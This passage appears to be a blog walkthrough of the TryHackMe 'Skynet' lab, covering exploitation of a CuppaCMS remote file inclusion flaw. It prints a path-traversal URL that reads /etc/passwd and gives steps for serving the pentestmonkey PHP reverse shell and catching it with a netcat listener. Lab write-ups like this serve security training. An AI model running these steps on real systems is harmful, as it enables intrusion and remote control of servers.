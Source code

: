 But neither the two passwords found work on the login page. Even with `milesdyson@skynet`.

![I'll be back](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExN2Q5ZGRqcGY4OWw0cHlnajV0Njl5eDd1OG8yZnI4NWxobjdpcDRuZCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/RfEbMBTPQ7MOY/giphy.gif)
_I'll be back_
### WEB exploitation

Happily we found a CVE on CuppaCMS CVE-25971 at [Exploit DB - CVE-25971](https://www.exploit-db.com/exploits/25971?source=post_page-----0cea67bb860d---------------------------------------). It's a Remote File Inclusion, it allows us to inject some code in the web app and execute it by some mean.

But firstly, we should verify if the web application is vulnerable. The CVE report says:

```
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

![](/assets/img/2025-07-30-THM-Skynet/testing-vulnerability.png)


![Hasta la vista baby](https://media1.giphy.com/media/v1.Y2lkPWVjZjA1ZTQ3bmgzNWs3MGN3OTViZnplcnQwNnhlangwanMzNDR6Z2NhcnQ4ZTJmNyZlcD12MV9naWZzX3JlbGF0ZWQmY3Q9Zw/10PMpMkNZgnqvK/100.gif)
_Hasta la vista baby_

Let's craft a PHP reverse shell payload to exploit this vulnerability.

- Retrieve php rev shell at https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- Modify the IP address and the Port number with your
- Launch a python HTTP server in the same directory that contains your PHP payload
```bash
# In the same file with the revshell payload revshell.php
python3 -http.server 8000
```
- Listen  for connexion
```bash
nc -lvnp <PORT> # same port as the php payload
```
